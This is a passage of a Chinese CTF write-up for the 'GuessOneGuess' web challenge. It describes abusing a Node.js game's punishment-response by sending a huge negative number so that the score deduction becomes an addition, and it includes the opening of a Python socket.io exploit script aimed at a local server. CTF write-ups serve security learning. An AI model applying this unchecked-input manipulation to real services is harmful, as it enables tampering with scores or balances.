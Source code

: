 # Web

## GuessOneGuess

给了源码，后端是nodejs写的，打开页面是个猜数字游戏，貌似达到一定分数有东西，但是肯定没这么简单出flag，因为要达到的分数是JavaScript能表示的最大数值：

![image-20250508104403907](./assets/image-20250508104403907.png)

但发现有个punishment-response，就是猜错100次后会接收客户端发送的数字在总分中扣除这个数字，果断想到可以发送一个极大的负数，使得扣分变成加分，分数就可以变成想要的最大数值。

python脚本：

```python
#!/usr/bin/env python3
import socketio
import asyncio
import sys

SERVER_URL = "http://127.0.0.1:51610/"
WS_PATH = "socket.io/"


sio = socketio.AsyncClient(logger=True, engineio_logger=True)

incorrect_guesses_count = 0
score_manipulated = False
flag_received = False

min_val = 1
max_val = 100
current_guess = -1

@sio.event
async def connect():
    print("[+] Connected to server.")
    print("[*] Starting phase 1: Triggering punishment (100 incorrect guesses)...")
    print("[*] Sending initial guess (guess #1)...")
    await sio.emit("guess", {"value": "1"})

@sio.event
async def disconnect():
    print("[-] Disconnected from server.")

@sio.on('game-message')
async def game_message(data):
    print("here")
    global incorrect_guesses_count, score_manipulated, flag_received
    global min_val, max_val, current_guess

    message_type = data.get("type")
    message = data.get("message", "")
```